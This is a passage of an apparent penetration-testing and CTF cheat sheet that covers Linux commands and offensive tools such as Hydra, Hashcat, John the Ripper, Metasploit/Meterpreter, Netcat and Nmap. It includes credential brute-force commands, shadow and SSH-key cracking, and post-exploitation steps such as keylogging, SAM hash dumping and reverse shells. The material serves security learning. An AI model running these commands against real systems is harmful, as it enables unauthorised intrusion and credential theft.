| Penetration Tester | Responsible for testing technology products for security loopholes |
| Red Teamer | Plays the role of an adversary, attacking an organisation and providing feedback from an enemies perspective |

## ISO27001
ISO (the International Organization for Standardization) is a worldwide federation of national standards bodies (ISO member bodies), where ISO27001 is an international standard on how to manage information security.

ISO/IEC 27001 requires that management:
* Systematically examine the organization's information security risks, taking account of the threats, vulnerabilities, and impacts
* Design and implement a coherent and comprehensive suite of information security controls and/or other forms of risk treatment (such as risk avoidance or risk transfer) to address those risks that are deemed unacceptable; and
* Adopt an overarching management process to ensure that the information security controls continue to meet the organization's information security needs on an ongoing basis.

An ISMS(Information Security Management System) may be certified compliant with ISO/IEC 27001 by a number of Accredited Registrars worldwide.

# Linux Commands 
## ls
ls is a Linux shell command that lists directory contents of files and directories.

`-i` list file's inode index number  
`-a` list all files including hidden file starting with '.'  
`-l` list with long format - show permissions   
`-d`	list directories - with ' */'  
`-s`	list file size  
`-S`	sort by file size  
`-t`	sort by time & date  
`-X`	sort by extension name  
## mkdir
Created directories

**Syntax**  
`mkdir <name>`

The command mkdir has an option marked -p to add parent directories.  
`mkdir -p Folder/i/am/in`
## tree
We can look at the whole structure after creating the parent directories with the tool tree.

Syntax:  
`tree .` 
## ps
Shows the processes for the current shell 

**PID** – the unique process ID   
**TTY** – terminal type that the user is logged into   
**TIME** – amount of CPU in minutes and seconds that the process has been running   
**CMD** – name of the command that launched the process.   


`-a` flag stands for all processes  
`-x` will display all processes even those not associated with the current tty  
`-t` Processes associated with the terminal run
## rm
`-r` Deletes every file in the directory  
`-f` Suppresses all warning prompts 
## mv
Moves files  
Example:
`mv file.txt /tmp`
## top
top command is used to show the Linux processes. It provides a dynamic real-time view of the running system
## lsof
lsof stands for list open files. It is a command-line utility that lists all the open files and the processes that opened them.

**Syntax**  
`lsof <options> <file>`

**Examples**  
Only show openvpn processes  
`lsof -i | grep openvpn` 
## kill
Used to kill a process

The most commonly used signals are:

1 (HUP) - Reload a process.  
9 (KILL) - Kill a process.  
15 (TERM) - Gracefully stop a process.

`kill -9 PID_ID`
## find
The find command is used to search and locate the list of files and directories  

**Syntax**  
`find <location> <options>`

**Examples**
Find all config files that are bigger than 25kilobytes and are newer than 2020-03-03, and then execure the ls -la command without printing the error in the terminal  
`find / -type f -name *.conf -size +25k -newermt 2020-03-03 -exec ls -al {} \; 2>/dev/null`  

Search for files from root  
`find / -type f -name passwords.txt`

Find any file with the extension of ".txt"  
`find -name *.txt`

Check the permissions for what the ‘users’ group can do  
`find / -group users -type f 2>/dev/null`

**Location specific options**   
No specification = this folder  
/ = root folder  
. = this folder and its subdirectories  

**Other options**  
`-name` = specify file specific name/descriptions to be found  
`-iname` = Like -name, but the match is case insensitive.  
`-print` = It prints the pathname of the current file to standard output.  
`-regex` = True if the whole path of the file matches pattern using expression   
`-type` = With -type, you can use d to only find directories, and f to only find files.  
`-user` = specify owner  
`-size` = specify size  
`-perm` = specify permissions

**Time specific**  
min and time. a(acessed), m(modified), c

To put it all together: in order to specify that a file was last accessed more than 30 minutes ago, the option `-amin +30` is used. 

To specify that it was modified less than 7 days ago, the option `-mtime -7` is used. 

When you want to specify that a file was modified within the last 24 hours, the option `-mtime 0` is used.

**Note**  
1. Suppress the output of any possible errors to make the output more readable. This is done by appending `2> /dev/null` to your command. This way, you won’t see any results you’re not allowed to access.
2. The second thing is the `-exec` flag. You can use it in your find command to execute a new command, following the -exec flag, like so: `-exec whoami \;`. (can be used for privilege escalation)'
## where
This tool returns the path to the file or link that should be executed.

Syntax  
`where python3`
## apropos
This tool is used to search for a command by its description.

Syntax  
`apropos <something>`

Example  
`apropos hexeditor`
## stat
Displays detailed information about given files or file systems. These informations can be: file name, file size, blocks, type, inode, UID, GID, access, modify, change and creation times.

Example usage:  
`stat file.txt`
## diff
diff is a command-line utility that allows you to compare two files line by line

Example usage:
`diff a.txt b.txt`
## tail/head
The tail/head command, as the name implies, print the last/first N number of data of the given input

Options:  
`-n <number>` number of lines to show  
`-c <numbers>` number of bytes  
`sort` to sort
## history
`history` command in Linux is a built-in shell tool that displays a list of commands used in the terminal session
## pwd
Find the full Path to our current working directory
## chmod
Chmod allows you to set the different permissions for a file

Example:
`chmod 777 file.txt`

**Permissions**
| Digit    |      Meaning   | 
|----------|:-------------:|
| 1  | That file can be executed |
| 2  | That file can be written to   | 
| 3  | That file can be executed and written to |
| 4  | That file can be read |
| 5  | That file can be read and executed |
| 6  | That file can be written to and read |
| 7  | That file can be read, written to, and executed |

To make a binary file just executable for the owner of the file, you can use:  
`chmod u+x file.txt`
## chown
Change the user and group for any file

`chown user:group file` change user/group  

**Example (change the owner):**  
`chown berkan file.txt`

`-R` to operate on every file in the directory at once
## curl
The curl command transfers data to or from a network server, using one of the supported protocols (HTTP, HTTPS, FTP, FTPS, SCP, SFTP, TFTP, DICT, TELNET, LDAP or FILE). 

**Syntax:**  
`curl <URL>` simply fetches the URL and prints it to the terminal.  
`curl -s <URL>"` to suppress the output (statistics)  
`curl -H "DNT: 1" <URL>` to change the DNT(do not track) header   
`curl -o page.html <URL>` to save the output to a file  
`curl -A "something" <URL>` to change the user agent  
`curl --referer <URL_REF> <URL>` to change the referer   
`curl -H "X-Forwarded-For: <IP>" <URL>` to change the X-Forwarded-For header  
`curl -H "Accept-Language: da-DK" <URL>` to change the Accept-Language header (ex. Danish)  
`curl -H "Date: Mon, 23 11 2018 23:23:23 GMT" <URL>` to change the date  

**Example:**  
Real use case example  
`curl -s -A "PicoBrowser" -H "Date: Mon, 23 11 2018 23:23:23 GMT" -H "DNT: 1" -H "X-Forwarded-For: 2.71.255.255" -H "Accept-Language: sv-SE" --referer http://mercury.picoctf.net:36622 http://mercury.picoctf.net:36622/ | grep -oI "picoCTF{.*}"`
## wget
The wget command downloads files from HTTP, HTTPS, or FTP connection a network.  

Get ftp files recursively  
`wget -r ftp://ftpuser:<USER>@<IP>`

Adding a `-b` switch will allow us to run wget in the background and return the terminal to its initial state.
## wash
Wash is a tool that can be used to crack WPA/WPA2 handshakes. It is a part of the aircrack-ng suite.

Example usage:
`wash -i wlan0mon` - to scan for WPA/WPA2 networks
## netdiscover
Netdiscover is a tool that can be used to scan for live hosts on a network. It is a part of the aircrack-ng suite.

Example usage:
`netdiscover -i wlan0mon` - to scan for live hosts on a network  
or 
`netdiscover -r <ip>/24`
## apt
apt is a command-line utility for installing, updating, removing, and otherwise managing deb packages
`sudo apt update` This will pull the latest changes from the APT repositories:

`sudo apt upgrade` To upgrade the installed packages to their latest versions

`sudo apt full-upgrade` The difference between **upgrade** and **full-upgrade** is that the later will remove the installed packages if that is needed to upgrade the whole system.

`sudo apt install package_name` Install packages

`sudo apt remove package_name` Remove packages

`sudo apt autoremove` Remove unused packages

`sudo apt list` List packages
## dig
dig command stands for Domain Information Groper. It is used for retrieving information about DNS name servers

`dig [server] [name] [type]`  
`dig google.com` 

Options:  
`-x` Specify IP adress  
`+noall +answer` Detailed information  

Save to a file:  
`dig -f domain_research.txt +short`  
## tar
tar is a command that allows creating, maintaining, modifying, and extracting files that are archived in the tar format (tar, gzip, zip).

The most common example for tar extraction would be:
`tar -xf archive.tar`

### Compressing files with tar
`tar -czvf stuff.tar.gz`

### Uncompressing files with tar
`tar -xvzf myfolder.tar.gz -C myfolder/` 

**Options:**  
`-c` tells tar to create an archive.  
`-z` tells tar to compress the archive with gzip.  
`-v` tells tar to be verbose.  
`-f` tells tar that the next argument will be the name of the archive to operate on.  
`-C` tells tar to change to the directory specified before performing any operations.	   
`-x` tells tar to extract files from an archive.  
## grep
Search the contents of files for specific values   
`grep "hello world" file.txt`

Search for an ip using regular expressions  
`grep -Eo '[0–9]{1,3}\.[0–9]{1,3}\.[0–9]{1,3}\.[0–9]{1,3}'`  

Search for binaries (ex. "/usr/bin/sudo")  
`grep '^/.../.../....$'` 

Grep for CTF flag 1/2  
`grep -oi '\S*flag\S*' <path>`

Grep for CTF flag 2/2  
`grep "flag{.*}"`

**Options**  
`-n` line numbers for every string found  
`-E` regular expressions
## wc
Word count  
`wc -l file.txt` get numbers of entries  

**Options**  
`-l` count number of lines  
`-c` count number of bytes  
`-w` count number of words   
`-m` count number of characters  
## cut
Cut parts of lines from specified files or piped data and print the result to standard output.

**Syntax**  
`cut OPTION FILE`

**Example usage**  
`/etc/passwd | cut -d":" -f1`

**Options**  
`-f` - Select by specifying a field, a set of fields, or a range of fields. This is the most commonly used option.  
`-c` - Select by specifying a character, a set of characters, or a range of characters.  
`-d`  - Specify a delimiter that will be used instead of the default “TAB” delimiter.  
## tr
Another possibility to replace certain characters from a line with characters defined by us is the tool tr

**Example usage**
Change delimeter from ":" to " " (space).
`tr ":" " "`

Change from lowercase to uppercase
`tr 'a-z' 'A-Z`
## column
Since such results can often have an unclear representation, the tool column is well suited to display such results in tabular form using the "`-t`"

**Example usage:**  
`column -t`
## awk
Awk is a utility that enables a programmer to write tiny but effective programs in the form of statement

**Example usage**  
`awk '{print $1, $2}`  

`$0`: Represents the entire line of text.  
`$1`: Represents the first field.  
`$2`: Represents the second field.  
`$7`: Represents the seventh field.  
`$45`: Represents the 45th field.  
`$NF`: Stands for “number of fields,” and represents the last field.  
## sed
sed looks for patterns we have defined in the form of regular expressions (regex) and replaces them with another pattern that we have also defined

**Example usage**  
Replace the word "bin" with "BK."  
`sed 's/bin/BK/g'`

The "s" flag at the beginning stands for the substitute command. Then we specify the pattern we want to replace. After the slash (/), we enter the pattern we want to use as a replacement in the third position. Finally, we use the "g" flag, which stands for replacing all matches.
## whoami
Find out what user we're currently logged in as
## uname
Prints basic information about the operating system name and system hardware

`uname -a` will print all available information
## ftp
FTP or File Transfer Protocol is a network communication protocol that enables two computers to communicate

Standard use  
`ftp <IP>` 

Enter your username and password to log in to the server. Some FTP servers allow anonymous logins with a username of "`anonymous`" and an email address as the password.

Commands:
`ls` - list files  
`cd` - change directory  
`get` - download file  
`put` - upload file  
`quit` - exit  

See more commands [here](/More/FTP/Commands.md).
## ssh
SSH or Secure Shell is a network communication protocol that enables two computers to communicate

Standard use  
`ssh user@ip` and type the password

Login with a key  
`ssh -i path_to_pem user@ip`

Specify other ports than 22  
`ssh user@ip -p <port>`
## searchsploit
Searchsploit is a command line search tool for Exploit-DB 

Usage:  
`searchsploit [options] term1 term2 term3 ...`

Example:  
`searchsploit afd windows local`

Options:  
`-c, --case [Term]` - Perform a case-sensitive search (Default is inSEnsITiVe)  
`-e, --exact [Term]` - Perform an EXACT search (e.g. "WordPress 4.1" would not detect "WordPress Core 4.1")  
`-s, --strict` - Perform a strict search, so input values must exist("1.1" would not be detected in "1.0 < 1.3")  
`-t, --title [Term]` - Search JUST the exploit title (Default is title AND the file's path   
`-p, --path [EDB-ID]` -  Show the full path to an exploit   
`--exclude="term"` Remove values from results. By using "|" to separate, you can chain  multiple values e.g. --exclude="term1|term2|term3”  
## xfreerdp
xfreerdp is an X11 Remote Desktop Protocol (RDP) client 

Usage:  
`xfreerdp [options] server[:port] [[options] server[:port] ...]`

Options:   
`/u:<username>` - Username  
`/p:<password>` - Password  
`/v:<hostname>:<port>` - Server hostname  
`/cert:ignore` - Ignore certificate  
`/ipv6`, `/6` - Prefer IPv6 AAA record over IPv4 A record
## hexeditor
Read and modify hex of a file (This tool is also helpful when it comes to CTFs and text is hidden inside a file or when the magic number of a file was altered.) Alternatives are: xxd, hexedit, GHex (GNOME GUI) & HxD (Windows).

**Example usage**  
`hexeditor -n file.txt`

**Options**  
`-a` Print all text characters.  
`-n` Force Gray scale, no colors.

**Controls:**
CTRL + F - Go to last line  
CTRL + C - Exit without saving  
CTRL + X - Exit and save  
CTRL + U - Undo  
CTRL + W - Search
## gzip
gzip - a file format and a software application used for file compression and decompression. gzip-compressed files have .gz extension.

`gzip filename.txt` compression

Switches:  
`-d` decompression

Example:  
`gzip -d file.gz`
## binwalk
Binwalk allows users to analyze and extract firmware images and helps in identifying code, files, and other information embedded in those, or inside another file

**Usage:**  
`binwalk [options] <file>`

**Examples:**  
`binwalk -e firmware.bin` - Extract files  
`binwalk -Me firmware.bin` - Recursively scan extracted files (matryoshka) 

`binwalk -e firmware.bin` - Extract files    
`-e` - Extract files  
`-M` - Recursively scan extracted files (matryoshka)  
`-v` - Verbose output    
`-q` - Quiet output  
## sudo
Sudo is Linux's 'run as administrator' command

**Options**  
`-u <user>` specify user   
`su` change to root  
`-l` list current sudo priviliges   
## hashid
Hashid will analyze and output the potential algorithm that is used to hash your input.  
`hashid option hash`

`-e` - list all possible hash algorithms including salted passwords  
`-m` - include corresponding hashcat mode in output  
`-j` - include corresponding JohnTheRipper format in output  
`-o FILE` - write output to file (default: STDOUT)  
`-h` - show help message and exit  
## shasums
**Find SHA1 hash for a file**  
`sha1sum file.txt`

**Find MD5 hash for a file**  
`md5sum file.txt`
## base64
Decrypt base64  
`base64 -d file.txt`
## gpg
Gpg encrypt a file  
`gpg -c data.txt`  
Enter keyphrase

Decrypt the file  
`gpg -d data.txt.gpg`  
Enter keyphrase
## hexdump
hexdump is used to filter and display the specified files, or standard input in a human readable specified format.  

**Syntax**  
hd {options} {files}

**Options**  
`-c` One-byte character display.   
`-C` Canonical hex + ASCII display.
## xxd
xxd is a hex editor that can be used to convert binary files to hex and vice versa.

**Syntax**
`xxd [options] [infile [outfile]]`

**Options**    
`-b` binary digit dump  
`-e` little-endian dump  
`-l len` stop after <len> octets.  
`-r` reverse operation: convert (or patch) hexdump into binary.  
`-d` show offset in decimal instead of hex.  
`-u` use upper case hex letters.  
## exiftool
Is a command-line application for reading, writing and editing meta information in a wide variety of files.

Install with:  
`sudo apt install libimage-exiftool-perl`

Usage  
`exiftool file.jpeg`
## fcrackzip 
Is a password cracker that runs on .zip files 

Install  
`sudo apt-get install fcrackzip`

Usage  
`fcrackzip -vbDp <wordlist path> <filepath>`

Example  
`fcrackzip -Dp /usr/share/wordlists/rockyou.txt secret.zip -v`

**Options**  
`-b` for using brute force algorithms.   
`-D` for using a dictionary.  
`-v` for verbose mode.  
`-p` for using a string as a password.
## crunch
Crunch is a wordlist generator that can generate all possible combinations and permutations.

Install  
`sudo apt-get install crunch`

Usage  
`crunch <min> <max> <characters>`

Example  
`crunch 8 8 abcdefghijklmnopqrstuvwxyz -t @@dog@@@-o wordlist.txt`

**Options**  
`-t` for adding a pattern to the generated wordlist.  
`-o` for saving the generated wordlist to a file.
## rax2 
rax2 comes in handy when there is a need to make base conversions between hexadecimal representations, floating point values, hex-pair strings to ASCII, binary, octal, integer and so on.

### Syntax
`rax2 <options> <value>`

### Example
`rax2 -s 0x424b`

### A list of most useful flags: 
```bash
-a      show ascii table     ;  rax2 -a
-b      bin -> str           ;  rax2 -b 01000010 01001011 # BK
-B      str -> bin           ;  rax2 -B hello # 0110100001100101011011000110110001101111
-d      force integer        ;  rax2 -d 3 -> 3 instead of 0x3
-D      base64 decode        ;  rax2 -D SGVsbG8gd29ybGQ= # Hello world
-E      base64 encode        ;  rax2 -E Hello world # SGVsbG8gd29ybGQ=
-f      floating point       ;  rax2 -f 6.3+2.1
-I      IP address <-> LONG  ;  rax2 -I 3530468537 # 185.172.110.210
-k      keep base            ;  rax2 -k 33+3 -> 36
-K      randomart            ;  rax2 -K 0x34 1020304050
-L      bin -> hex(bignum)   ;  rax2 -L 111111111 # 0x1ff
-n      binary number        ;  rax2 -n 0x1234 # 34120000
-o      octalstr -> raw      ;  rax2 -o \162 \62 # r2
-N      binary number        ;  rax2 -N 0x1234 # \x34\x12\x00\x00
-r      multiple outputs     ;  rax2 -r 0x1234 
-s      hexstr -> raw        ;  rax2 -s 42 4b # BK
-S      raw -> hexstr        ;  rax2 -S < /bin/ls > ls.hex
-t      tstamp -> str        ;  rax2 -t 1234567890 # Sat Feb 14 00:31:30 2009
-x      hash string          ;  rax2 -x linux #0x5ca62a43
-u      units                ;  rax2 -u 389289238 # 317.0M
-w      signed word          ;  rax2 -w 16 0xffff
```
## jq
jq is a lightweight and flexible command-line JSON processor. It is used to parse, filter, and transform JSON data. It is written in C and has no external dependencies.

To install use `sudo apt install jq`

**Syntax**  
`jq <options> <filter> <input>`

**Example**  
`jq . sample.json` one way of prettifying json data  
`cat sample.json | jq` another way of prettifying json data  
`jq -c < pretty.json` minify json data
## gcc
gcc is a compiler that can be used to compile C programs. It is used to compile C programs into machine code.

**Syntax:**  
`gcc <options> <input>`

**Example:**  
`gcc -o hello.c hello` Compile the program  
`./hello` Run the compiled program
## adduser & addgroup
The syntax for both of these commands are `adduser username` and `addgroup groupname`.

Add a user to a group  
`usermod -a -G <groups seperated by commas> <user>`
## Operators
`>` is the operator for output redirection. Meaning that you can redirect the output of any command to a file  
`>>` does mainly the same thing as >, with one key difference. >> appends the output of a command to a file, instead of erasing it.
## File Descriptors
A file descriptor (FD) in Unix/Linux operating systems is an indicator of connection maintained by the kernel to perform Input/Output (I/O) operations. In Windows-based operating systems, it is called filehandle. It is the connection (generally to a file) from the Operating system to perform I/O operations (Input/Output of Bytes). By default, the first three file descriptors in Linux are:

**Data Stream for Input**  
`STDIN – 0`  
**Data Stream for Output**    
`STDOUT – 1`  
**Data Stream for Output that relates to an error occurring.**    
`STDERR – 2`  

Redirects the file descriptors for the errors (STDERR) to "`/dev/null`" This way, we redirect the resulting errors to the "null device," which discards all data.  
`find /etc/ -name shadow 2>/dev/null > results.txt`

**Redirect STDOUT and STDERR to Separate Files**  
`find /etc/ -name shadow 2> stderr.txt 1> stdout.txt`


# Tools (CLI)
## Aircrack-ng
[Aircrack-ng](https://www.aircrack-ng.org) - is a complete suite of tools to assess WiFi network security  

`TO BE ADDED`  
https://cheatography.com/itnetsec/cheat-sheets/aircrack-ng-suite/
## Gobuster
[Gobuster](https://github.com/OJ/gobuster) is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names
### Syntax
`gobuster -w wordlist.txt`

### Examples:  
Standard scan  
`gobuster dir -u http://172.162.39.86 -w /usr/share/wordlists/dirb/megalist.txt` 

DNS subdomain enumeration  
`gobuster dns -d http://172.162.39.86 -w /usr/share/SecLists/Discovery/DNS/namelist.txt`

### A list of options
`dir` Directory/file brute forcing mode  
`dns` DNS bruteforcing mode

### A list of most useful flags:
`-u` (url) – full target URL (including scheme), or base domain name.  
`-w` (wordlist) – path to the wordlist used for brute forcing (use – for stdin).  
`-a` (user agent string) – specify a user agent string to send in the request header.  
`-e` (print) - Print the full URLs in your console  
`-o` (file) – specify a file name to write the output to.  
`-x` (extensions) – list of extensions to check for, if any.  
`-P` (password) – HTTP Authorization password (Basic Auth only, prompted if missing).  
`-U` (username) – HTTP Authorization username (Basic Auth only).  
`-c <http cookies>` (cookie) - Specify a cookie for simulating your auth  
`-s` (status-codes) - Set status codes that should be interpreted as valid  
`-k` (ssl) - Skip ssl certificate   
`-H` (HTTP) - Specify HTTP header  
`-t` (threads) - Number of concurrent threads (default: 10)  
`-v` (verbose) - Verbose output  
`-q` (quiet) - Quiet output  
`-n` (no-redirect) - Do not follow redirects  
`-r` (recursive) - Recursively brute force subdirectories  
## Feroxbuster
feroxbuster uses brute force combined with a wordlist to search for unlinked content in target directories.

**Syntax:**    
`feroxbuster [OPTIONS]`

**Example:**  
`feroxbuster -u https://berkankutuk.dk -w /usr/share/wordlists/dirb/big.txt` 

**Options:**  
`-h, --help` - Print help information    
`-V, --version` - Print version information    
`-u, --url <URL>` - The target URL   
`-b, --cookies <COOKIE>` - Specify HTTP cookies to be used in each request   
`-m, --methods <HTTP_METHODS>` -  Which HTTP request method(s) should be sent (default: GET)  
`-x, --extensions <FILE_EXTENSION>` - File extension(s) to search for (ex: -x php -x pdf js)  
`-C, --filter-status <STATUS_CODE>` - Filter out status codes (deny list) (ex: -C 200 -C 401)  
`-s, --status-codes <STATUS_CODE>` - Filter status codes (allow list) (default: 200 204 301 302 307 308 401 403 405)  
`-r, --redirects` - Allow client to follow redirects  
`-T, --timeout <SECONDS>` - Number of seconds before a client's request times out (default: 7)  
`-d, --depth <RECURSION_DEPTH>` - Maximum recursion depth, a depth of 0 is infinite recursion (default: 4)  
`-e, --extract-links` - Extract links from response body and make new requests based on findings  
`-L, --scan-limit <SCAN_LIMIT>` - Limit total number of concurrent scans (default: 0, i.e. no limit)  
`-n, --no-recursion` - Do not scan recursively  
`-t, --threads <THREADS>` - Number of concurrent threads (default: 50)  
`--time-limit <TIME_SPEC>` - Limit total run time of all scans (ex: --time-limit 10m)  
`-w, --wordlist <FILE>` - Path to the wordlist  
`-o, --output <FILE>` - Output file to write results  
`-v, --verbosity` - Increase verbosity level (use -vv or more for greater effect. '4' -v's is probably too much)
## Hashcat
[Hashcat](https://hashcat.net/hashcat/) is a particularly fast, efficient, and versatile hacking tool that assists brute-force attacks by conducting them with hash values of passwords that the tool is guessing or applying.
[Cheatsheet](https://cheatsheet.haax.fr/passcracking-hashfiles/hashcat_cheatsheet/)

### Syntax
`hashcat -m <number> <hash_file> <dict_file>`

### Example 
Dictionary  
`hashcat -m 1800 -a 0 hashed.txt /usr/share/wordlists/rockyou.txt -o output.txt`  

Bruteforce  
`hashcat -m 0 -a 3 -i hashed.txt ?a?a?a?a?a?a?a -o output.txt`

### Flags
`-m` sets the [mode](https://hashcat.net/wiki/doku.php?id=example_hashes)   
`-a` sets the attack mode (0=Straight,1=Combination,3=Bruteforce,6=Hybrid:wlist+mask,7=Hybrid:mask+wlist)  
`-o` output to filename   
`-r` sets rules  
`--status`  keep screen updated   
`--runtime` abort after X seconds   
`--force` sets workload to insane (This can lead to false positives)  
`-i` increment (bruteforce)

### Attack modes
0=Straight  
1=Combination  
3=Bruteforce  
6=Hybrid:wlist+mask  
7=Hybrid:mask+wlist  

### Charsets
`?l`  Lowercase a-z  
`?u`  Uppercase A-Z  
`?d`  Decimals  
`?h`  Hex using lowercase chars    
`?H`  Hex using uppercase chars  
`?s`  Special chars     
`?a`  All (l,u,d,s)  
`?b`  Binary  
## Hydra
[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a tool used to brute-force username and password to different services such as ftp, ssh, telnet, MS-SQL, etc.
### Syntax  
`hydra -options path`  

### Examples:  
Guess SSH credentials using a given username and a list of passwords:  
`hydra -l username -P path/to/wordlist.txt host_ip -t 4 ssh -V`

Guess Telnet credentials using a list of usernames and a single password, specifying a non-standard port and IPv6:  
`hydra -L path/to/usernames.txt -p password -s port -6 host_ip telnet`

Guess FTP credentials using usernames and passwords lists, specifying the number of threads:  
`hydra -L path/to/usernames.txt -P path/to/wordlist.txt -t n_threads host_ip ftp` 

Guess MySQL credentials using a username and a passwords list, exiting when a username/password pair is found:  
`hydra -l username -P path/to/wordlist.txt -f host_ip mysql`

Web form credentials:   
`hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip_adress> http-post-form "/login:username=^USER^&password=^PASS^:F=Username or password invalid" -V`

Guess IMAP credentials on a range of hosts using a list of colon-separated username/password pairs:  
`hydra -C path/to/username_password_pairs.txt imap://[host_range_cidr]`

Guess POP3 credentials on a list of hosts using usernames and passwords lists, exiting when a username/password pair is found:  
`hydra -L path/to/usernames.txt -P path/to/wordlist.txt -M path/to/hosts.txt -F pop3`

### A list of most useful options:
`-S` connect via SSL  
`-l` single username  
`-L` wordlist username(s)   
`-p` single password   
`-P` wordlist password(s)    
`-o` FILE write found login/password pairs to FILE instead of stdout  
`-V` verbose mode, see output for every attempt  
`-I` ignore the resume dialog  
`-t <number> `specifies the number of threads to use  
`-u` by default Hydra checks all passwords for one login and then tries the next login. This option loops around the passwords, so the first password is tried on all logins, then the next password.  
## John The Ripper
[John The Ripper](https://www.openwall.com/john/) is a fast password cracker, currently available for many flavors of Unix, Windows, and other. [Cheatsheet](https://cheatsheet.haax.fr/passcracking-hashfiles/john_cheatsheet/)

### SSH Private Key
Crack hashed private key  
`python /usr/share/john/ssh2john.py id_rsa > hash.txt`

ssh2john.py can sometimes also be located under `/opt/john/ssh2john.py`

Crack the hash (or a shadow file)
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
## Metasploit
The Metasploit Framework is a set of tools that allow information gathering, scanning, exploitation, exploit development, post-exploitation, and more. While the primary usage of the Metasploit Framework focuses on the penetration testing domain, it is also useful for vulnerability research and exploit development.

**Auxiliary:** Any supporting module, such as scanners, crawlers and fuzzers, can be found here.  
**Encoders:** Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.

### Payloads
**Singles:** Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.  
**Stagers:** Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.    
**Stages:** Downloaded by the stager. This will allow you to use larger sized payloads.

Metasploit has a subtle way to help you identify single (also called “inline”) payloads and staged payloads.

* generic/shell_reverse_tcp
* windows/x64/shell/reverse_tcp

Both are reverse Windows shells. The former is an inline (or single) payload, as indicated by the “_” between “shell” and “reverse”. While the latter is a staged payload, as indicated by the “/” between “shell” and “reverse”.

### How to use

Initialize the database  
`msfdb init`  

View advanced options for starting the console  
`msfconsole -h`  

Start metasploit  
`msfconsole`

Check db connection  
`db_status`

Msf commands  
`help` or `?` - shows the help page

Search exploit  
`search <exploit_for>`

Select module  
`use <module>`

Change value of a variable  
`set <variablename> <value>`  
`get <variablename>`  
`unset <variablename>` 

Save msfconsole session  
`save`

Save console outputs  
`spool` 

See privileges of a current user  
`getprivs`

Tranfer files to victim computer  
`upload`

Check if the victim pc is in a VM (Windows)  
`run post/windows/gather/checkvm`

See what a machine could be vulnerable to  
`run post/multi/recon/local_exploit_suggester`

Spawn a normal system shell  
`shell`

### Meterpreter
Meterpreter is a Metasploit payload that supports the penetration testing process with many valuable components. Meterpreter will run on the target system and act as an agent within a command and control architecture. You will interact with the target operating system and files and use Meterpreter's specialized commands.

Meterpreter runs on the target system but is not installed on it. It runs in memory and does not write itself to the disk on the target. This feature aims to avoid being detected during antivirus scans.

Meterpreter also aims to avoid being detected by network-based IPS (Intrusion Prevention System) and IDS (Intrusion Detection System) solutions by using encrypted communication with the server where Metasploit runs (typically your attacking machine).

Even though Meterpreter is very stealthy, most antivirus software will detect it unfortunately.

See some of the available commands [here](/More/Metasploitable/Meterpreter/Commands.md).

### Post exploitation with Meterpreter
The post-exploitation phase will have several goals; Meterpreter has functions that can assist all of them.

* Gathering further information about the target system.
* Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system.
* Privilege escalation.
* Lateral movement.

**Migrate**  
Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the keyscan_start, keyscan_stop, and keyscan_dump command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.  
To migrate to any process, you need to type the migrate command followed by the PID of the desired target process.

Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.

**Hashdump**  
The hashdump command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.

While it is not mathematically possible to "crack" these hashes, you may still discover the cleartext password using online NTLM databases or a rainbow table attack. These hashes can also be used in Pass-the-Hash attacks to authenticate to other systems that these users can access the same network.

**Search**  
The search command is useful to locate files with potentially juicy information `search -f flag.txt`.

**Shell**  
The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.
## Netcat
[Netcat](http://netcat.sourceforge.net) aka nc is an extremely versatile tool. It allows users to connect to specific ports and send and receive data. It also allows machines to receive data and connections on specific ports, which makes nc a very popular tool to gain a Reverse Shell.

### Syntax
Computer B (acts as the receiving server):  
`nc -lvnp 6790 > testfile.txt`  
Computer A (acts as the sending client):  
`nc [IP address of computer B] 6790 < testfile.txt`  

### A list of most useful switches:
`-l` Listen to connections (TCP)  
`-v` Enable verbose mode (allows you to see who connected to you)  
`-p` Specify a port to listen to  
`-e` Specify program to execute after connecting to a host  
`-u` Connect to UDP ports    
`-n` Fast scan by disabling DNS resolution  
`-w` Define timeout value  
`-4` IPv4 only   
`-6` IPv6 only  
`>` Server file redirection  
`<` Client file redirection
## Nikto 2 
[Nikto 2](https://cirt.net/Nikto2) or nikto is a popular web scanning tool that allows users to find common web vulnerabilities. It is commonly used to check for common CVE's such as shellshock, and to get general information about the web server that you're enumerating.

### Syntax
`nikto -h <ip> -port <port>`

### A list of most useful flags:
`-h` Hostname/IP adress  
`-port` Specify ports  
`-nossl` Disable ssl  
`-ssl` Force ssl  
`-id` Specify authentication(username & password)  
`-plugin` Select which plugin to use  
`-update` Update the plugin list  
`--list-plugins`  List all possible plugins to use   
`-output` Output fingerprinted information to a file
## Nmap
[Nmap](https://nmap.org) is a utility for network discovery and security auditing.
### Syntax
`nmap -switch1 -switch2 ipaddress`  

Example:  
`nmap -sT -A -p- 172.162.39.86`  

### A list of most useful switches:
TCP scan (Most likely to be filtered)= `-sT`  
TCP Syn Scan (No logging)= `-sS`  
UDP scan (Slow)= `-sU`  

ICMP Scanning (ping sweep) = `-sn`  
Default ping scanning) = `-sP` 
Detect OS = `-O`  
Detect version of services = `-sV`  
Scan with the default nmap scripts = `-sC`  
Disable host discovery and just scan for open ports = `-Pn`  
Change verbosity = `-v`  
Change verbosity level two = `-vv` (It's good practice to *always* increase the verbosity in your scans.)  

Save nmap results in three major formats = `-oA [filename] [target]`  
Save nmap results in a text file = `-oN [filename] [target]`  
Save nmap results in grepable format = `-oG [filename] [target]`  

Aggresive mode (Enable OS detection, version detection, script scanning, and traceroute) = `-A`  
Timing leves (Speed of scans, can make errors) = `-T<Level>` (0-5)  
